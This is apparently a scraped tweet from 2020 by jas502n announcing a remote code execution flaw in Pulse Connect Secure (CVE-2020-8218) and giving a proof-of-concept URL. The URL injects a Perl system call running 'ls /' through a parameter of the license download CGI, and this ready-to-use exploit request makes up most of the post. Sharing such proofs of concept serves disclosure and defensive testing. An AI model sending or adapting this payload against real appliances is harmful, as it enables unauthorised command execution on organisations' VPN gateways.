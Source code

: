 <td><img src="pictures/c317a01d1bfbc503295c49843f2de8e10eb639ed4e7285408be19acf90bef88b.jpg" alt="c317a01d1bfbc503295c49843f2de8e10eb639ed4e7285408be19acf90bef88b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31, 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>
